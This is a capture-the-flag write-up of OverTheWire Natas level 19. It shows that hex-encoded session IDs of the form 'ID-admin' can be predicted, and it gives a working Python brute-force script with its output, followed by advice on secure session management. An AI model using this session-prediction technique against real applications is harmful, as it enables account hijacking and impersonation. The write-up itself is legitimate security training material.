

# Natas Level 19: Session IDs in Disguise

## The Setup
| Level | Username | Target URL |
| :--- | :--- | :--- |
| Level 19 | natas19 | http://natas19.natas.labs.overthewire.org |

**Introduction:** At first glance, Level 19 looks like a carbon copy of the previous challenge. Same login form, same admin requirement, but with one critical twist: the session IDs are no longer sequential. The developers got smarter, or so they thought. This level teaches us that obfuscation is not encryption, and a simple encoding scheme can be reversed just as easily as it was applied.

---

## Hunting for Clues

When I first loaded the page, I was greeted with a familiar sight.



The page displays a bold warning: "This page uses mostly the same code as the previous level, but session IDs are no longer sequential..." Below that, it asks me to login with an admin account to retrieve credentials for natas20. The form has the standard Username and Password fields with a Login button. Nothing too surprising here, but that warning about non sequential session IDs caught my attention immediately.

I decided to check the source code first, but there was nothing interesting there. No PHP source, no comments, no hints. So I moved on to testing the actual login mechanism to see what kind of session ID I would get.

I fired up curl to send a test login request:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ curl -i -u natas19:tnw[REDACTED] -d "username=test&password=test" http://natas19.natas.labs.overthewire.org/index.php
HTTP/1.1 200 OK
Date: Sun, 15 Feb 2026 05:20:21 GMT
Server: Apache/2.4.58 (Ubuntu)
Set-Cookie: PHPSESSID=3434382d74657374; path=/; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 1029
Content-Type: text/html; charset=UTF-8

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas19", "pass": "tnw[REDACTED]" };</script></head>
<body>
<h1>natas19</h1>
<div id="content">
<p>
<b>
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
</b>
</p>
You are logged in as a regular user. Login as an admin to retrieve credentials for natas20.</div>
</body>
</html>
```

The response confirmed I was logged in as a regular user. But the interesting part was right there in the headers: `Set-Cookie: PHPSESSID=3434382d74657374; path=/; HttpOnly`

That session ID looked suspicious. It was clearly not a random string or a sequential number like we saw in Level 18. It looked like hex encoded data. I decided to decode it:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ echo '3434382d74657374' | xxd -r -p
448-test 
```

There it was! The session ID was just hex encoded text in the format `ID-username`. In this case, `448-test` because I logged in with the username "test" and got assigned session ID 448.

This was the breakthrough I needed. The session IDs weren't actually randomized or cryptographically secure. They were just the same predictable numeric IDs from Level 18, but with the username appended and then hex encoded. The developers thought that encoding would provide security, but it was just security through obscurity.

## Breaking In

Now that I understood the pattern, the attack strategy became crystal clear. If the session IDs still use the same 1 to 640 range from Level 18, I just need to:

1. Generate session IDs in the format `{number}-admin`
2. Hex encode each one
3. Try each hex encoded session ID until I find the admin session

I wrote a Python script to automate this brute force attack:

```python
import requests
from requests.auth import HTTPBasicAuth
import re

target = "http://natas19.natas.labs.overthewire.org/index.php"
auth = HTTPBasicAuth('natas19', 'tnw[REDACTED]')

print("[*] Brute-forcing Hex Sessions (1-640)...")

for sid in range(1, 641):
    raw_sid = f"{sid}-admin"
    hex_sid = raw_sid.encode().hex()

    print(f"[?] Testing ID {sid}: {hex_sid}", end="\r")

    cookies = {'PHPSESSID': hex_sid}
    r = requests.get(target, auth=auth, cookies=cookies)

    if "You are an admin" in r.text:
        print(f"\n\n[SUCCESS] Found Admin Session at ID: {sid}")
        print(f"[*] Hex Cookie: {hex_sid}")

        match = re.search(r"Password:\s+([a-zA-Z0-9]{32})", r.text)
        if match:
            print(f"[*] Password: {match.group(1)}")
        break
```

The script does exactly what I described. For each number from 1 to 640, it creates a string like "1-admin", "2-admin", etc., then converts it to hex using Python's `.encode().hex()` method. It sends a request with that hex value as the PHPSESSID cookie and checks if the response contains "You are an admin". When it finds the admin session, it extracts the password using a regex pattern.

Time to run it:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ python3 solve19.py
[*] Brute-forcing Hex Sessions (1-640)...
[?] Testing ID 281: 3238312d61646d696e

[SUCCESS] Found Admin Session at ID: 281
[*] Hex Cookie: 3238312d61646d696e
[*] Password: p5m[REDACTED]
```

Perfect! The script found the admin session at ID 281. The hex cookie `3238312d61646d696e` decodes to `281-admin`, and I got the password for the next level.

This attack worked because hex encoding is not encryption. It's a reversible transformation that provides zero security. Anyone who understands the encoding scheme can decode it, and more importantly, anyone who figures out the pattern (ID-username) can generate valid session IDs without even needing to decode anything.

The lesson here is fundamental: **encoding is not security**. Whether it's base64, hex, URL encoding, or any other transformation, these are meant for data representation, not protection. Real security requires proper encryption with keys, or in the case of session IDs, cryptographically secure random number generation that makes prediction impossible.

### What Should Have Been Done

A secure session management implementation would:

1. **Use Cryptographically Secure Random Session IDs**: Generate session IDs using a cryptographically secure random number generator like PHP's `random_bytes()` or `openssl_random_pseudo_bytes()`. The IDs should be long enough (at least 128 bits) to make brute force attacks infeasible.

2. **Never Include Predictable Data**: Session IDs should never contain user information, sequential numbers, or any predictable patterns. The ID should be completely opaque and unrelated to the user or their data.

3. **Implement Session Rotation**: Regenerate the session ID after authentication to prevent session fixation attacks.

4. **Add Rate Limiting**: Implement aggressive rate limiting on session validation to detect and block brute force attempts.

5. **Monitor for Anomalies**: Log and alert on suspicious patterns like rapid session ID testing or multiple failed session validations from the same IP.

6. **Set Appropriate Session Timeouts**: Use short session lifetimes for sensitive operations and implement both idle and absolute timeout mechanisms.

7. **Use Secure Cookie Attributes**: Beyond HttpOnly, also use the Secure flag (for HTTPS only) and SameSite attribute to prevent various cookie based attacks.

8. **Bind Sessions to Additional Factors**: Tie sessions to IP address ranges or user agent strings (with caution for user experience) to make stolen sessions harder to use.

9. **Implement Server Side Session Storage**: Store session data server side in a secure manner (database, Redis, etc.) rather than relying on client side cookies for anything beyond the session ID.

10. **Regular Security Audits**: Continuously review session management code and test it against known attack vectors like session hijacking, fixation, and prediction attacks.

The real world impact of weak session ID generation is severe. Attackers can hijack legitimate user sessions, impersonate administrators, and gain unauthorized access to sensitive systems. This isn't just a CTF problem; production applications with weak session management face these exact risks.

---

## The Loot

**Next Level Password:** p5m[REDACTED]

**Quick Recap:** Hex encoded session IDs containing predictable numeric IDs and usernames were brute forced by generating and testing all possible admin session combinations from 1 to 640.
